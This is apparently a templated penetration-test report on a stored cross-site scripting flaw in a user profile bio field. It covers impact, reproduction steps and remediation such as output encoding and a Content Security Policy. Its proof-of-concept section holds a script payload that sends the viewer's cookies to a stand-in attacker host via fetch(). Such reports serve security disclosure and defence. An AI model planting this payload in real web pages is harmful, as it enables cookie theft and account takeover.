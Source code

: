 # Penetration Testing Writeup: XSS in User Profile

## Executive Summary

A Stored Cross-Site Scripting (XSS) vulnerability was identified in [Target
Application]’s user profile editing feature during a penetration test. This flaw
allows attackers to inject scripts that execute for users viewing the profile,
risking data theft and account compromise. This report provides details and
remediation steps.

## Vulnerability Details

- **Vulnerability Type**: Cross-Site Scripting (XSS) - Stored
- **Severity**: Critical
- **Affected Component**: User profile bio field
- **CWE**: CWE-79 (Improper Neutralization of Input During Web Page Generation)
- **Location**: `https://[target-application]/profile/[user-id]`
- **Discovered By**: [PenTester Name]
- **Date Discovered**: August 27, 2025

### Description

The user profile bio field does not sanitize inputs before saving them to the
database. When the profile is viewed, the stored data is rendered without
encoding, allowing script execution.

### Impact

- **Account Takeover**: Cookies can be stolen.
- **Data Exfiltration**: Profile data can be sent to attackers.
- **Phishing**: Fake forms can capture credentials.
- **Reputation Damage**: Defacement can harm trust.

### Proof of Concept

1. Edit the profile bio with: `<script>alert('Stored XSS');</script>`.
2. View the profile and observe the alert.
3. Malicious payload:
   `<script>fetch('https://attacker.com/steal?cookie='+document.cookie);</script>`.

### Steps to Reproduce

1. Navigate to `https://[target-application]/profile/edit`.
2. Enter `<script>alert('Stored XSS');</script>` in the bio field.
3. Save and view the profile to confirm the alert.

## Remediation Recommendations

1. **Input Sanitization**:
   - Use OWASP AntiSamy to filter bio inputs.
2. **Output Encoding**:
   - Encode bio data before rendering.
3. **Content Security Policy**:
   - Apply CSP: `Content-Security-Policy: script-src 'self';`.
4. **Secure Development**:
   - Train developers on XSS prevention.
5. **Regular Testing**:
   - Conduct security audits.

## Conclusion

The Stored XSS vulnerability in [Target Application]’s profile feature is
critical and requires immediate remediation.

## References

- OWASP XSS Prevention Cheat Sheet:
  https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html
- CWE-79: https://cwe.mitre.org/data/definitions/79.html

![Profile XSS Alert](https://example.com/images/profile-xss-alert.png)
